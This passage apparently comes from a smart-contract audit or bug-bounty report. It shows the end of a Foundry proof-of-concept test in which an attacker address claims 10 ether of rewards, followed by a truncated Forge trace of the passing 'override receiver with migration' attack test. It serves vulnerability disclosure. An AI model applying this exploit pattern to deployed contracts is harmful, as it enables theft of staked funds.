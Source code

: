 ```solidity
        vm.prank(vanillaAttacker);
        vm.expectEmit();
        emit RewardsClaimed(vanillaAttacker, 10 ether);
        rewardManager.claimRewards();
        assertEq(vanillaAttacker.balance, 10 ether, "Attacker should have received all funds");
    }

```
Output :

Screenshot 2025-06-01 at 10.57.39 AM.png

Whole log Terminal
```bash
forge test --match-contract RewardManagerTest --match-test testOverrideReceiverWithMigrationAttack --
via-ir -vvvv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/validator-registry/rewards/RewardManagerTest.sol:RewardManagerTest
[PASS] testOverrideReceiverWithMigrationAttack() (gas: 578218)
Traces:
 [694518] RewardManagerTest::testOverrideReceiverWithMigrationAttack()
   ├─ [138996] VanillaRegistryTest::testSelfStake()
   │   ├─ [0] VM::deal(0x0000000000000000000000000000000000000123, 9000000000000000000 [9e18])
   │   │   └─ ← [Return]
   │   ├─ [0] VM::assertEq(9000000000000000000 [9e18], 9000000000000000000 [9e18]) [staticcall]
   │   │   └─ ← [Return]
   │   ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000123)
   │   │   └─ ← [Return]
   │   ├─ [0] VM::expectEmit(true, true, true, true)
   │   │   └─ ← [Return]
   │   ├─ emit Staked(msgSender: 0x0000000000000000000000000000000000000123, withdrawalAddress: 0x0000000000000000000000000000000000000123, valBLSPubKey: 0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268, amount: 1000000000000000000 [1e18])
   │   ├─ [71550] ERC1967Proxy::fallback{value: 1000000000000000000}([0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268])
   │   │   ├─ [66295] VanillaRegistry::stake{value: 1000000000000000000}([0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268]) [delegatecall]
   │   │   │   ├─ emit Staked(msgSender: 0x0000000000000000000000000000000000000123, withdrawalAddress: 0x0000000000000000000000000000000000000123, valBLSPubKey: 0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268, amount: 1000000000000000000 [1e18])
   │   │   │   └─ ← [Return]
   │   │   └─ ← [Return]
   │   ├─ [0] VM::stopPrank()
   │   │   └─ ← [Return]
   │   ├─ [0] VM::assertEq(8000000000000000000 [8e18], 8000000000000000000 [8e18]) [staticcall]
   │   │   └─ ← [Return]
   │   ├─ [5298] ERC1967Proxy::fallback(0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268) [staticcall]
   │   │   ├─ [4540] VanillaRegistry::getStakedValidator(0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268) [delegatecall]
   │   │   │   └─ ← [Return] StakedValidator({ exists: true, withdrawalAddress: 0x0000000000000000000000000000000000000123, balance: 1000000000000000000 [1e18], unstakeOccurrence: Occurrence({ exists: false, blockHeight: 0 }) })
   │   │   └─ ← [Return] StakedValidator({ exists: true, withdrawalAddress: 0x0000000000000000000000000000000000000123, balance: 1000000000000000000 [1e18], unstakeOccurrence: Occurrence({ exists: false, blockHeight: 0 }) })
   │   ├─ [0] VM::assertEq(0x0000000000000000000000000000000000000123, 0x0000000000000000000000000000000000000123) [staticcall]
   │   │   └─ ← [Return]
   │   ├─ [2682] ERC1967Proxy::fallback(0x96db1884af7bf7a1b57c77222723286a8ce3ef9a16ab6c5542ec5160662d450a1b396b22fc519679adae6ad741547268) [staticcall]
```